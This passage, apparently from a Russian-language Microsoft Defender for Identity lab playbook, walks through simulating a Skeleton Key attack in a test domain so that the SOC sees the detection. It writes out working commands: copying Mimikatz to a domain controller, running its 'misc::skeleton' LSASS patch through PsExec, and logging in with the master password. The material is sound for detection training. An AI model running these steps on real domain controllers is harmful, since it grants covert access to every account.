 На портале [!INCLUDE [Product short](includes/product-short.md)] убедитесь, что SOC теперь известно о вредоносной репликации, которую мы смоделировали с использованием VictimPC.

![[!INCLUDE [Product short](includes/product-short.md)]: обнаружение вредоносной репликации](media/playbook-dominance-maliciousrep_detected.png)

### <a name="skeleton-key"></a>использование мастер-ключа;

Еще один метод захвата управления доменом, который используется злоумышленниками, известен как **использование мастер-ключа**. Злоумышленник может *в любое время**маскироваться под любого пользователя* с использованием самостоятельно созданного мастер-ключа. При атаке с использованием мастер-ключа любой пользователь может входить с помощью своего обычного пароля, однако всем учетным записям также присваивается основной пароль. Новый основной пароль или мастер-ключ дает любому знающему его пользователю открытый доступ к учетной записи. Атака с использованием мастер-ключа осуществляется путем исправления процесса LSASS.exe на контроллере домена, заставляя пользователей проходить проверку подлинности с помощью типа шифрования более ранней версии.

Воспользуемся мастер-ключом, чтобы увидеть, как работает этот тип атаки:

1. Переместите **Mimikatz** в **ContosoDC** , используя полученные ранее учетные данные **SamirA**. Убедитесь, что вы отправляете **mimikatz.exe** с правильной архитектурой на основе типа архитектуры контроллера домена (64-разрядная и 32-разрядная). Из папки **Mimikatz** выполните следующее:

   ```dos
   xcopy mimikatz.exe \\ContosoDC\c$\temp
   ```

1. С помощью инструмента **Mimikatz** , который размещен в контроллере домена, удаленно выполните следующий код через PsExec:

   ```dos
   PsExec.exe \\ContosoDC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "misc::skeleton" ^& "exit")
   ```

1. Вы успешно исправили процесс LSASS в **ContosoDC**.

    ![Атака с использованием мастер-ключа через Mimikatz](media/playbook-dominance-skeletonkey.png)

### <a name="exploiting-the-skeleton-key-patched-lsass"></a>Использование LSASS, исправленного с помощью мастер-ключа

На компьютере **VictimPC** откройте командную строку (в контексте **JeffL** ) и выполните следующее, чтобы попытаться войти в контекст RonHD.

```dos
runas /user:ronhd@contoso.azure "notepad"
```

При появлении запроса специально используйте неправильный пароль. Это действие доказывает, что учетная запись *по-прежнему* имеет пароль после выполнения атаки.

![Использование *неправильного* пароля после атаки с использованием мастер-ключа (этот метод работает именно так, как описано)](media/playbook-dominance-skeletonkey_wrong.png)

Однако мастер-ключ добавляет еще один пароль для каждой учетной записи. Выполните команду runas еще раз, но в этот раз используйте mimikatz в качестве пароля.

```dos
runas /user:ronhd@contoso.azure "notepad"
```
